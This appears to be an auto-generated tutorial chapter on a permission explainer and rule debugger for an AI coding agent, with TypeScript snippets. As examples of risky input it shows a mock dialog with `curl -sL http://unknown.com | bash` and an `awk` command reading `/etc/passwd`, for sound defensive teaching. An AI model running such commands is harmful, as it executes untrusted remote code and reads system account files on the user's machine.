

# Chapter 6: Permission Explainer & Debugging

In the previous chapter, [Shell Command Governance](05_shell_command_governance.md), we implemented safety checks for dangerous terminal commands. We learned how to warn the user when the AI tries to run `rm -rf`.

However, safety isn't just about blocking bad things; it's about understanding *what* is happening. Sometimes a command looks safe but does something unexpected. Other times, you *thought* you created a rule to allow a command, but the system keeps asking you for permission anyway.

This brings us to **Permission Explainer & Debugging**.

## 1. The "Legal Advisor" Analogy

Imagine you are trying to sign a complex business contract written in a language you only essentially know.

You have two problems:
1.  **Translation:** You see a paragraph of technical jargon. You need a **Translator** to tell you: *"This clause says they can evict you with 1 day's notice."*
2.  **Procedure:** You signed a waiver last week, so you think you shouldn't have to sign this today. You need a **Legal Clerk** to check the files and say: *"Your previous waiver only covered Tuesday. Today is Wednesday."*

In our project:
*   The **Permission Explainer** acts as the **Translator**. It uses AI to explain complex code in plain English.
*   The **Debugger** acts as the **Clerk**. It explains *why* a specific rule applied or why a rule you expected to work didn't match.

## 2. Motivation: Why do we need this?

**Use Case 1: The Confused User**
The AI asks to run: `awk -F: '{ print $1 }' /etc/passwd | head -n 5`.
Most users know this is a command, but is it dangerous? Is it stealing passwords? A simple "Allow/Reject" prompt isn't enough information to make an informed decision.

**Use Case 2: The Frustrated Automator**
A user creates a rule: *"Always allow `npm test`"*.
The AI runs `npm run test`. The system blocks it and asks for permission.
The user gets angry: *"I told you to allow this!"*
Without debugging tools, the user won't realize that `npm test` and `npm run test` are technically different strings.

## 3. Central Use Case

**The Scenario:**
The AI wants to run a complex `curl` command to download a script.

**The Solution:**
1.  The User sees the request. They are unsure.
2.  They press `Ctrl+E` (Explain).
3.  The system uses a small AI model to analyze the command.
4.  It displays: *"This command downloads a script from the internet and executes it immediately. **High Risk**."*
5.  The User rejects the request.
6.  The User checks the "Debug" view to see which rule triggered the review.

## 4. Key Concepts

### A. The Explainer (AI-Powered)
This component takes the raw technical input (the shell command or file patch) and sends it to a "fast" LLM. It asks the LLM to summarize the *intent* and *risk* in one sentence.

### B. The Lazy Loader
AI explanations cost money (tokens) and time. We don't want to generate an explanation for every single `ls` command. We use a **Lazy Loading** pattern: the explanation is only fetched when the user specifically asks for it.

### C. The Decision Debugger
This is a purely logical component. It looks at the **Tool Permission Context** (the database of existing rules) and compares it to the **Current Request**. It calculates:
*   Did any rule match?
*   Are there rules that *almost* matched but failed due to a typo or path difference? (Shadowed/Unreachable rules).

## 5. How to Use It (The Explainer)

The explainer is integrated directly into the `PermissionDialog`. It uses a hook called `usePermissionExplainerUI`.

### The Hook Logic
This hook handles the user interaction. It waits for a keypress (`Ctrl+E`) before doing any work.

```typescript
// PermissionExplanation.tsx

export function usePermissionExplainerUI(props) {
  const [visible, setVisible] = useState(false);
  const [promise, setPromise] = useState(null);

  // Define the hotkey 'Ctrl+E'
  useKeybinding('confirm:toggleExplanation', () => {
    if (!visible && !promise) {
        // Only fetch the AI explanation the FIRST time it is opened
        setPromise(createExplanationPromise(props));
    }
    // Toggle the UI on/off
    setVisible(v => !v);
  });

  return { visible, promise };
}
```

### The Visual Component
The UI component (`PermissionExplainerContent`) uses React `Suspense`. This allows us to show a nice "Shimmer" animation while the AI is thinking, without blocking the rest of the UI.

```typescript
// PermissionExplanation.tsx

export function PermissionExplainerContent({ visible, promise }) {
  if (!visible) return null;

  return (
    <Suspense fallback={<ShimmerLoadingText />}>
       {/* This component will wait for the promise to resolve */}
       <ExplanationResult promise={promise} />
    </Suspense>
  );
}
```

## 6. How to Use It (The Debugger)

The debugger helps users understand the system's decision-making process. It is usually displayed at the bottom of the request.

It primarily answers: **"Why are you asking me this?"**

### The Debug Component
This component (`PermissionDecisionDebugInfo`) takes the result of the permission check and renders the reasoning.

```typescript
// PermissionDecisionDebugInfo.tsx

export function PermissionDecisionDebugInfo({ permissionResult }) {
  const { decisionReason } = permissionResult;

  return (
    <Box flexDirection="column">
      {/* 1. Show the reason (e.g., "No rule found") */}
      <Text dimColor>Reason</Text>
      <PermissionDecisionInfoItem decisionReason={decisionReason} />

      {/* 2. Show unreachable rules (Debugging logic) */}
      <UnreachableRulesWarning />
    </Box>
  );
}
```

### Detecting "Shadowed" Rules
One of the coolest features here is detecting **Unreachable Rules**.
If the user has a rule *Always Allow `npm *`*, but a previous rule says *Block `npm install`*, the "Allow" rule might never be reached. The debugger detects this logic error and warns the user.

```typescript
// Logic Concept (Simplified)

const unreachableRules = allRules.filter(rule => {
   // If a rule exists in the DB but was NOT used for this decision
   // even though it matches the text, it might be shadowed.
   return rule.matches(input) && !rule.wasUsed;
});

if (unreachableRules.length > 0) {
  print("Warning: You have rules that are being ignored!");
}
```

## 7. Sequence of Events

Let's trace the flow of a user asking for an explanation.



## 8. Internal Implementation: The Debug Info

Let's look at `PermissionDecisionDebugInfo.tsx` to see how it renders the decision reason. This helps developers and users verify exactly what happened.

```typescript
// PermissionDecisionDebugInfo.tsx (Simplified)

function decisionReasonDisplayString(reason) {
  switch (reason.type) {
    case 'rule':
      // A specific rule triggered this
      return `Matched rule from ${reason.source}`;
    case 'mode':
      // The global security mode triggered this
      return `${reason.mode} mode requires approval`;
    case 'safetyCheck':
      // The "Shell Governance" system flagged it
      return `Flagged by safety check: ${reason.reason}`;
    default:
      return reason.type;
  }
}
```

This simple switch statement converts internal logic states (like `safetyCheck`) into human-readable text (`Flagged by safety check`).

## 9. Visualizing the Output

When everything comes together, the terminal UI looks like this:

```text
╭─ Bash Command ────────────────────────╮
│                                       │
│  curl -sL http://unknown.com | bash   │
│                                       │
│  [ Explanation ]                      │
│  High Risk: This command downloads    │
│  and executes code from the web.      │
│                                       │
│  [ Debug Info ]                       │
│  Reason: Flagged by safety check      │
│                                       │
│  > Reject                             │
│    Allow                              │
│                                       │
╰───────────────────────────────────────╯
```

1.  **Header/Frame:** From [Unified Dialog Interface](02_unified_dialog_interface.md).
2.  **Command:** From [Shell Command Governance](05_shell_command_governance.md).
3.  **Explanation:** From **This Chapter**.
4.  **Debug Info:** From **This Chapter**.

## Conclusion

The **Permission Explainer & Debugging** tools transform our system from a simple gatekeeper into an intelligent assistant.
*   The **Explainer** helps the user understand *what* the AI is doing.
*   The **Debugger** helps the user understand *why* the system is behaving that way.

Now that users can create rules, understand commands, and debug decisions, we have one final piece of the puzzle. Where do these rules actually live? If I restart the computer, do I lose my "Always Allow" settings?

In the final chapter, we will explore the **Rule Persistence Manager**, which handles saving and loading these decisions to disk.

[Next Chapter: Rule Persistence Manager](07_rule_persistence_manager.md)

---

Generated by [Code IQ](https://github.com/adityasoni99/Code-IQ)